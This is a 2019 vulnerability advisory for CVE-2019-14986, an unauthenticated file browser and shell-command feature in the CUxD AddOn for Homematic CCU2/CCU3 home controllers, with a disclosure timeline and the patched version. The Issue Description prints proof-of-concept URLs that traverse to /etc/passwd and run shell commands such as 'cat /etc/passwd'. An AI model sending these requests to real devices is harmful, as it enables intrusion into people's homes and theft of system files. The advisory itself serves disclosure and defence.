 ```yaml
---
layout: post
title:  "CVE-2019-14986 eQ-3 Homematic CCU2 and CCU3 with the 'CUxD' AddOn version prior 2.3.0 installed allows administrative operations by unauthenticated attackers with access to the web interface, because features such as File-Browser and Shell Command (as well as 'Set root password') are exposed"
date:   2019-08-13 20:45:00 MEST
author: 'psytester'
---
```



# Overview

- CVE: CVE-2019-14986
- Author: psytester
- Title: eQ-3 Homematic CCU2 and CCU3 with the 'CUxD' AddOn version prior 2.3.0 installed allows administrative operations by unauthenticated attackers with access to the web interface, because features such as File-Browser and Shell Command (as well as "Set root password") are exposed
- Vulnerability Type: CWE-284: Improper Access Control
-	CVSSv3 Base Score: 10.0
-	CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
- Publishing Date: 13.08.2019
- Updated: --
- Vendor: eQ-3 AG
- Product: Homematic CCU2 and CCU3
- Vendor eQ-3 contacted: 13.02.2019
- Vendor eQ-3 response on 11.04.2019 with "not responsible for AddOns"
- Addon itself:
  - Developer of 'CUxD' AddOn contacted: 07.05.2019
  - Developer of 'CUxD' AddOn confirmation: 08.05.2019
  - Affected 'CUxD' AddOn version: 2.2.0 and prior
  - 'CUxD' AddOn patched since version: 2.3.0

# Background

From [ELVjournal 06/2014](https://www.elv.de/CUxD-%E2%80%93-das-Leatherman-f%C3%BCr-die-HomeMatic%C2%AE-CCU-Teil-1/x.aspx/cid_726/detail_49667) translated:<br>
The Homematic additional software CUx-Daemon (short CUxD) is a universal interface between the Homematic central unit and components of other home control or SmartHome systems. These include the ELV FS20, FHT, HMS and EM/ESA systems, but also components of the EnOcean system and much more. By integrating these products, which are actually incompatible, the scope of the Homematic System can be extended beyond borders. In a multi-part article series we want to present CUxD, installations and possible uses in more detail.

From [ELVjournal 02/2015](https://www.elv.de/CUxD-%E2%80%93-das-Leatherman-fuuml;r-die-HomeMatic%C2%AE-CCU-Teil-3/x.aspx/cid_726/detail_50496) translated:<br>
The general emergency management functions can be accessed via the URL "http://CCU-IP-Adresse/addons/cuxd/maintenance.html". For example, all processes currently started on the CCU can be displayed here. A great advantage is that this page can be called up much faster than the WebUI and that even after a crash of the ReGaHss service, the WebUI or the CUxD, this website can still be accessed via web browser with all the functions offered. A CCU restart from a distance is also possible in case of problems. The last item "Shell command" can be used to start any CCU shell commands, the output takes place in a separate browser window.

From [eQ-3 vendor's website for CCU2](https://www.eq-3.com/products/homematic/control-units-and-gateways/homematic-central-control-unit-ccu2.html):<br>
HomeMatic Central Control Unit CCU2

Homematic Central Control Unit is the central element of your Homematic system, offering a whole range of control, monitoring and configuration options for all the Homematic devices in your installation<br>
[....]<br>

From [eQ-3 vendor's website for CCU3](https://www.homematic-ip.com/en/products/detail/smart-home-central-control-unit-ccu3.html):<br>
The Central Control Unit CCU3 is the central element for local control of the Homematic IP smart home system. It represents the next generation of our proven Homematic Central Control Units CCU1 and CCU2. Operation via the Central Control Unit CCU3 can be used alternatively to the Homematic IP Access Point. While the Access Point establishes the connection to the free Homematic IP cloud and enables operation of the smart home system via a smartphone app, the Central Control Unit CCU3 works locally via a browser-based web interface (WebUI). Thanks to local configuration and operation as well as the option to create direct device connections, reliable and fail-proof operation of the smart home system is guaranteed at all times – even in the event of Internet failures.<br>
[....]<br>

# Issue Description

'CUxD' is the most popular AddOn for Homematic CCU.<br>
While analyzing the CCU web interface based on given page files in file system path /www and the 'CUxD' AddOn management functions, this is another Improper Access Control resulting into Remote Code Execution and Directory Traversal vulnerability, if 'CUxD' AddOn prior to version 2.3.0 is installed.<br>
This vulnerability can be exploited by unauthenticated attackers with access to the web interface, because CUxD administration interface can be secured by a basic authentication, but this is not forced during setup and most installations are still unprotected.<br>

The CUxD administration interface provides several service functions and the following HTTP requests in Web Browser illustrates the attack vectors:

Build-in File-Browser for Directory Traversal:
```
http://1.2.3.4/addons/cuxd/index.ccc?file=%2fetc%2fpasswd
http://1.2.3.4/addons/cuxd/index.ccc?file=%2fusr%2flocal%2fetc%2fconfig%2fhomematic.regadom
http://1.2.3.4/addons/cuxd/index.ccc?file=%2ftmp%2fevent%2fsubscriber.list
```
Remote Code Execution via "Shell command" function:
```
http://1.2.3.4/addons/cuxd/index.ccc?pass=&maintenance=9&cmd=ls+-l+/etc
http://1.2.3.4/addons/cuxd/index.ccc?pass=&maintenance=9&cmd=cat+/etc/passwd
http://1.2.3.4/addons/cuxd/index.ccc?pass=&maintenance=9&cmd=cat+/usr/local/etc/config/homematic.regadom
http://1.2.3.4/addons/cuxd/index.ccc?pass=&maintenance=9&cmd=cat+/tmp/event/subscriber.list
```

Since CUxD version 2.3.0 this access is protected by default with a valid user session.<br>
The user must explicitly disable the protection or can soften it, which is not a good idea.

# CVE

[CVE-2019-14986](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14986)

# CVSSv3 Base Score

CVSSv3 Base Score: 10.0

CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H

# Credit

[psytester](https://psytester.github.io)

Not owning an original CCU2 or CCU3, but you want to analyze the CCU 'for free'?<br>
You can download<br>
[piVCCU](https://github.com/alexreinert/piVCCU) for running the original CCU3 Firmware in lxc container on RaspberryPi<br>
[RaspberryMatic](https://github.com/jens-maus/RaspberryMatic) for running the opensource OCCU based release on different boards<br>

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
